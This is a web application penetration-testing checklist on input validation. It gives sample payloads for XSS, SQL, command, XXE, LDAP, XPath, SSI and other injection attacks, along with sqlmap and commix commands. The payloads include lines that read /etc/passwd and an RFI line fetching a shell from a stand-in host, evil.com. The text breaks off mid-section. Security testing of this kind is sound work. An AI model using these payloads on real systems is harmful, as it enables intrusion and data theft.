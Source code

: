 



Data validation is the process of ensuring that a program operates with clean, correct, and useful data. Testing this involves intentionally inputting invalid, unexpected, or random data to see how the application handles it.

## Test for Cross Site Scripting (XSS)

> [!summary] 
> Cross-Site Scripting (XSS) attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. 

Tools: Browser, Burp Suite.



```bash
# Try inputting a script in any user-input fields.
<script>alert('XSS')</script>
```


##### Payload

* [XSS Vectors Cheat Sheet](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)



## Test for SQL Injection

> [!abstract] 
> SQL Injection involves inputting SQL statements in a field to try and manipulate the application's SQL queries. 


Tools: SQLmap, Browser, Burp Suite.


```bash
# Try inputting SQL statements in any user-input fields.
' OR '1'='1
# Or use sqlmap
sqlmap -u "http://www.example.com/page?param=value" --dbs
```


##### Cheat Sheet's

* [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

##### Payload

* [SQL Injection Payload List on GitHub](https://github.com/payloadbox/sql-injection-payload-list)

##### Tools

* ➡️ [sqlmap](../../Tools/sqlmap/README.md)
- Burp Suite
- OWASP ZAP
- SQLmap
- Nikto
- Wireshark

##### Articles

* [SQL injection UNION attacks @ portswigger.net](https://portswigger.net/web-security/sql-injection/union-attacks)
* [SQL injection UNION attack @ medium.com](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635) 


## Test for Command Injection

Tools: Commix, Browser, Burp Suite.

Command injection occurs when an attacker can inject and execute commands specified by the attacker in the vulnerable application.

```bash
# Try inputting command line commands in any user-input fields.
; ls

# Or in URL params 
http://example.com/ping?ip=10.10.217.166`ls`

# Or use Commix
commix -u "http://www.example.com/page?param=value"
```


##### Cheat Sheet's

- [Command Injection Cheatsheet - HackersOnlineClub](https://hackersonlineclub.com/command-injection-cheatsheet/)


## Test for Local File Inclusion (LFI) / Remote File Inclusion (RFI)

Tools: Browser, Burp Suite.

LFI involves including files that exist on the server's filesystem, while RFI involves including files from remote servers.

```bash
# For LFI, try to include local files.
../../etc/passwd
# For RFI, try to include remote files.
http://evil.com/shell.txt
```


## Test for XML External Entity (XXE) Attacks

Tools: Burp Suite.

XXE attacks involve exploiting XML parsers that process user input to execute files on the server, denial of service attacks, or perform other malicious activities.

```xml
<!-- Try to include local or remote entities in any XML inputs. -->
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```


## Test for LDAP Injection

LDAP Injection is an attack technique used to exploit applications that construct LDAP statements based on user input.

Tools: Burp Suite, Browser.

```bash
# Try inputting LDAP statements in any user-input fields.
*)(uid=*))(|(uid=*
```


## Test for ORM Injection

ORM Injection is an attack using SQL, HQL or other injection attacks on ORM generated queries.

Tools: Burp Suite, SQLmap.

```bash
# The payloads are typically same as SQL injection.
' OR '1'='1
```

## Test for XML Injection

XML Injection testing is when a tester tries to inject an XML doc to the application. If the XML parser fails to contextually validate data, then the test will yield a positive result.

Tools: Burp Suite, OWASP ZAP.

```bash
# Input XML doc with malicious payload in user-input fields.
<foo><![CDATA[</foo><bar>]]></bar>

# ORr in POST Request

POST /product/stock HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [length]

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <foo><![CDATA[</foo><bar>]]></bar>
  <!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <extra>&xxe;</extra>
</root>

```


##### Payloads

* [XXE Injection Payload List on GitHub](https://github.com/payloadbox/xxe-injection-payload-list)


## Test for SSI Injection

Server-Side Includes (SSI) Injection allows the exploitation of a web application by injecting scripts in HTML pages or executing arbitrary codes remotely. 

Tools: Burp Suite, Browser.

```bash
# Try inputting SSI directives in any user-input fields.
<!--#exec cmd="/bin/ls" -->
```

## Test for XPath Injection

XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents. 

Tools: Burp Suite, OWASP ZAP.

```bash
# Try inputting XPath queries in any user-input fields.
' or '1'='1
```

## Test for IMAP/SMTP Injection

IMAP/SMTP Injection is an attack technique used to exploit mail servers and webmail applications that construct IMAP/SMTP statements from user-supplied input, without properly validating or sanitizing the input before the mail query is made.

Tools: Burp Suite, Telnet.

```bash
# Try inputting IMAP/SMTP statements in any user-input fields.
a001 LOGIN "username" "password"
```


## Test for OS Commanding

OS command injection is a technique used when an application includes user-supplied data in a system-level command.

Tools: Comm




